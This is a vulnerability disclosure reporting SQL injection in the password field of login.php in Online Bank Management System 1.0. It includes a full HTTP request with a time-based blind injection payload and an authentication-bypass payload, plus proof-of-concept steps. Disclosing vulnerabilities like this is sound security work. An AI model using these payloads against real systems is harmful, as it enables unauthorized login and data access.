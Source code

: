# Online Bank Management System - login.php 'password' SQL inject

#### Exploit Title: Online Bank Management System - login.php 'password' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Bank Management System does not filter the content correctly at the "login.php/password" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /login.php HTTP/1.1
Host: 192.168.67.14:8089
Content-Length: 95
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.67.14:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.67.14:8089/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

email=manager%40manager.com&password=1'and 1=2 union select 1,sleep(10),3,4,5 --+&managerLogin=
```

#### Proof of Concept

1、Grab the package at the login and find that the login program is in login php

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/source-code.png)

3、Use payload "sleep (10)" for blind SQL injection.It is found that the time blind injection is successful

 ![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/result1.png)

4、We can also construct a payload for universal password login

payload:`email=manager%40manager.com&password=1'or '1'='1&managerLogin=`

 ![image](https://github.com/joinia/webray.com.cn/blob/main/php-bank/images/passlogin.png)
